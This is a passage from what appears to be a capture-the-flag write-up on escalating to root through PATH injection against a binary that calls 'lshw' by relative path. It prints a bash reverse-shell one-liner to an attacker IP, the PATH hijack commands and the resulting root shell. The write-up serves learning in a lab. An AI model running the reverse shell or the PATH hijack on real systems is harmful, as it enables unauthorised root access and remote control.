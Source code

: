 ### Exploiting path injection
The first step of exploiting this vulnerability is to choose one of the called binaries and create a malicious file with the same name in a location we can write to. I have chosen `lshw`, as it is the first binary that is called. Every other binary would work as well.
```bash
theseus@ubuntu:/dev/shm$ cat lshw
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'
theseus@ubuntu:/dev/shm$ chmod +x lshw
```
The next step is to change the environment variable `PATH`.
```bash
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
The original unchanged `PATH`.

```bash
theseus@ubuntu:/dev/shm$ export PATH=$(pwd):$PATH
theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Now we add `/dev/shm` to the beginning of the current `PATH`. Whenever a binary is now called using relative paths, the system checks all these folders for the binary. The first match will be used.

With the nc listener running in the background the binary can now be executed.

```bash
theseus@ubuntu:/dev/shm$ sysinfo
====================Hardware Info====================
```
Upon running `lshw`, the malicious `lshw` version will be run and the reverse-shell is triggered.

```bash
root@silence:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:36898.
root@ubuntu:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
```
We get a reverse-shell as the user root returned and we can now read root.txt.
```bash
root@ubuntu:/root# cat root.txt
9e707***************************
```

## Personal note

I was able to get 9th user own and 21th root own. It was a lot of fun to compete with all these other talented people for the first 25 owns and I am very proud to be among them.
